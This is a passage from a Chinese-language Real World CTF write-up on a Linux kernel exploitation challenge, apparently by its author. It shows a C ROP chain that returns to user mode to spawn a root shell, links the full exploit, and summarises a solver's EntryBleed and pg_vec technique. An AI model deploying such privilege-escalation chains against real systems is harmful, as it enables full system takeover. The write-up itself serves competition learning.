 ```c
    *rop++ = kernel_offset + 0xffffffff8108ef2b; // pop rcx ; ret
    *rop++ = 0x828;
    *rop++ = kernel_offset + 0xffffffff810705fe; // add rax, rcx ; jmp 0xffffffff82404c80
    *rop++ = kernel_offset + 0xffffffff816ac7a4; // mov qword ptr [rax], rbx ; add rsp, 0x10 ; xor eax, eax ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; jmp 0xffffffff82404c80
    rop += 8;

    *rop++ = kernel_offset + 0xffffffff82201146; // swapgs_restore_regs_and_return_to_usermode first mov
    *rop++ = 0;
    *rop++ = 0;
    *rop++ = (uint64_t)&get_root_shell;
    *rop++ = usr_cs;
    *rop++ = usr_rflags;
    *rop++ = usr_rsp;
    *rop++ = usr_ss;
```

最终的exploit代码时间消耗不到半分钟，成功率接近100%，完整的利用代码可见：<https://github.com/Larryxi/rwctf-6th-riptc>

![](https://image.baidu.com/search/down?url=https://wx1.sinaimg.cn/large/ee2fecafly1hme1hqcdbqj20u01hbn71.jpg)
# 0x04 赛后总结

本次比赛中[@N1ghtu](https://github.com/N1ghtu)仅用了一天就解出了该题目，也是这次比赛中的唯一解，可见他日常的积累与强劲的输出，解法具体而言使用[EntryBleed](https://www.willsroot.io/2022/12/entrybleed.html)泄漏内核地址，结合弹性对象pg_vec的特性（其为动态生成的堆地址数组），正好解决了2次引用的问题，堆的内容也是用户完全[可控](https://vul.360.net/archives/391)，丝滑又轻松地完成了题目的利用。

对于弹性结构体和偏移24减1的原语，有想过使用[Dirty Pagetable](https://ptr-yudai.hatenablog.com/entry/2023/12/08/093606)的方法去利用，但还未来得及付诸实践，看来研究学习的征途依然漫长。巧妇难为无米之炊，个人认为漏洞挖掘和漏洞利用是相辅相成的，本质都是对于系统代码能力的hack，虽然角度不一样，从CTF比赛的角度而言需要给选手们更加丝滑的体验做一些平衡取舍，期待我们下一届[RWCTF](https://www.realworldctf.com/)比赛的相遇，感谢。
